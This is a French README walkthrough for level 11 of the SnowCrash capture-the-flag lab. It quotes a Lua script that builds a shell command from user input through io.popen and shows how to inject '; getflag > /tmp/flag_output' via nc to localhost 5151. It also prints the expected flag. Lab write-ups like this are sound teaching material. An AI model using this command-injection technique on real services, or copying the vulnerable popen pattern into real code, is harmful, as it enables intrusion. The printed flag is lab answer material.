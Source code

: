 # SnowCrash Level 11 - Exploit README

## Résumé

Dans ce niveau, nous avons un script Lua (`level11.lua`) qui écoute sur le port 5151 et demande un mot de passe. Nous devons exploiter une faille de sécurité pour obtenir le mot de passe du niveau suivant.

## Le Problème

Le script utilise `io.popen` pour exécuter une commande shell avec l'entrée utilisateur, ce qui le rend vulnérable à une injection de commande :

```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

## Solution : Exploitation de la Faille

Nous allons injecter une commande pour exécuter `getflag` et rediriger la sortie vers un fichier dans `/tmp`.

### Étapes

1. **Se connecter au serveur** :
   ```sh
   nc localhost 5151
   ```

2. **Injecter la commande malveillante** :
   ```
   ; getflag > /tmp/flag_output
   ```

3. **Lire le fichier contenant le mot de passe** :
   ```sh
   cat /tmp/flag_output
   ```

### Commandes à Exécuter

```sh
# Se connecter au serveur
nc localhost 5151

# Entrer la commande malveillante
Password: ; getflag > /tmp/flag_output

# Vérifier le résultat
cat /tmp/flag_output
```

**Sortie attendue :**
```
fa6v5ateaw21peobuub8ipe6s
```

En exécutant ces étapes, nous exploitons l'injection de commande pour obtenir le mot de passe du niveau suivant.
